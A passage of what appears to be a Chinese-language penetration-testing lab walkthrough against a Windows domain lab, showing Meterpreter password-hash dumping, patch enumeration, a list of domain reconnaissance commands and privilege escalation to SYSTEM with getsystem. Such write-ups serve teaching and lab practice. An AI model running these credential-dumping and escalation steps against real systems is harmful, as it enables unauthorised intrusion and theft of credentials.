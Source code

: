 获取到域管理员的密码

获取hash  `hashdump`

```csharp
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

查看补丁信息：`run post/windows/gather/enum_patches`

```csharp
meterpreter > run post/windows/gather/enum_patches 

[*] Running module against STU1 (192.168.5.129)

Installed Patches
=================

  HotFix ID  Install Date
  ---------  ------------
  KB2534111  8/25/2019
  KB2999226  9/15/2019
  KB958488   8/29/2019
  KB976902   11/21/2010
```

信息收集常用命令：

```csharp
net time /domain        #查看时间服务器，判断主域，主域服务器都做时间服务器
net user /domain        #查看域用户
net view /domain        #查看有几个域
ipconfig /all 　　　　　  #查询本机IP段，所在域等 
net config Workstation  #当前计算机名，全名，用户名，系统版本，工作站域，登陆域 
net user 　　　　　　　   #本机用户列表
net group "domain computers" /domain   #查看域内所有的主机名 
net group "domain admins" /domain      #查看域管理员 
net group "domain controllers" /domain #查看域控
net localhroup administrators          #本机管理员[通常含有域用户]
net user 用户名 /domain                 #获取指定用户的账户信息  
net group /domain                      #查询域里面的工作组 
net group 组名 /domain                  #查询域中的某工作组
```

## 权限提升

这里是administrator权限，可以使用getsystem尝试提权

```csharp
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

